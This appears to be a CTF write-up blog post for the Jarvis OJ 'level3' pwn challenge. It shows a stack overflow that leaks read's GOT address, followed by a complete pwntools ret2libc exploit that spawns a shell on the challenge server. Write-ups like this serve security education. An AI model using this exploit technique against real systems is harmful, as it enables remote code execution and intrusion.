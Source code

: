 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level3
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level3.rar.1ce2f904ead905afbadd33de1d0c391d

Address:
nc pwn2.jarvisoj.com 9879
```
<!-- more -->


### 0x01 可执行文件特征

```
file level3
checksec level3
chmod a+x ./level3
./level3
```

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x00.png)

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x01.png)


### 0x02 放到IDA分析

构造write调用，将got表中read的真实地址打印出来

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x02.png)

查看write在plt表的地址

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x03.png)

查看read在got表的地址

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x04.png)

```
from pwn import *

write_addr = p32(0x08048340)
read_got_addr = p32(0x0804A00C)
vulner_addr = p32(0x0804844B)

payload = 'A' * (0x88 + 0x04)
payload += write_addr
payload += vulner_addr
payload += p32(0x01)	# stdout 1
payload += read_got_addr
payload += p32(0x04)

# Io = process('./level3')
Io = remote('pwn2.jarvisoj.com', 9879)
Io.recvuntil('Input:\n')
Io.send(payload)
tmp = Io.recv(4)
read_addr = u32(tmp[0:4])
print hex(read_addr)
```

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x05.png)

配合libc可计算出system和/bin/sh的地址

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x06.png)


### 0x03 最终的exploit如下


```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

write_addr = 0x08048340
read_got_addr = 0x0804A00C
vulner_addr = 0x0804844B

payload = "A" * (0x88 + 0x04)
payload += p32(write_addr)
payload += p32(vulner_addr)
payload += p32(0x01)		# stdout 1
payload += p32(read_got_addr)
payload += p32(0x04)

# Io = process('./level3')
Io = remote('pwn2.jarvisoj.com', 9879)
Io.recvuntil("Input:\n")
Io.send(payload)
tmp = Io.recv(4)
read_addr = u32(tmp[0:4])

read_libc_addr = 0x000daf60
offset = read_addr - read_libc_addr

system_addr = offset + 0x00040310
exit_addr = offset + 0x00033260
bin_sh_addr = offset + 0x16084c

payload = "A" * (0x88 + 0x04)
payload += p32(system_addr)
payload += p32(exit_addr)
payload += p32(bin_sh_addr)

Io.sendline(payload)
Io.interactive()
```

得到falg

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level3/0x07.png)